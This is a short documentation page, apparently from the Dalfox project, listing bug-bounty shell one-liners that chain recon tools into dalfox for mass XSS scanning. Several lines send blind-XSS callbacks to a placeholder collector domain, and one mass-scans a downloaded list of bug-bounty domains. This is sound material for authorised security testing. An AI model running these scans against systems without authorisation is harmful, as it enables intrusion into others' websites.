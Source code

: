 ```yaml
---
title: OneLiner
permalink: /docs/tips/oneliner/
---
```


> A fast, powerful, one-line

* Scanning XSS from host / from [@cihanmehmet in awesome-oneliner-bugbounty](https://github.com/dwisiswant0/awesome-oneliner-bugbounty)
```
▶ gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print ▶5}'| grep "=" | qsreplace -a | dalfox pipe | tee result.txt
```
* [Automating XSS using Dalfox, GF and Waybackurls](https://medium.com/bugbountywriteup/automating-xss-using-dalfox-gf-and-waybackurls-bc6de16a5c75)
```
▶ cat test.txt | gf xss | sed ‘s/=.*/=/’ | sed ‘s/URL: //’ | tee testxss.txt ; dalfox file testxss.txt -b yours-xss-hunter-domain(e.g yours.xss.ht)
```
* [Find XSS and Blind XSS, and send every request to burpsuite for more manual testing
](https://twitter.com/Alra3ees/status/1407058456323014659)
```
▶ dalfox file hosts --mining-dom  --deep-domxss --ignore-return -b 'YOURS.xss.ht' --follow-redirects --proxy http://127.0.0.1:8080
```
* [dalfox scan to bugbounty targets / from KingOfBugBountyTips](https://github.com/KingOfBugbounty/KingOfBugBountyTips#dalfox-scan-to-bugbounty-targets-1)
```
▶ wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | anew | httpx -silent -threads 500 | xargs -I@ dalfox url @
```
* [Recon subdomains and gau to search vuls DalFox / from KingOfBugBountyTips](https://github.com/KingOfBugbounty/KingOfBugBountyTips#recon-subdomains-and-gau-to-search-vuls-dalfox)
```
▶ assetfinder testphp.vulnweb.com | gau |  dalfox pipe
```
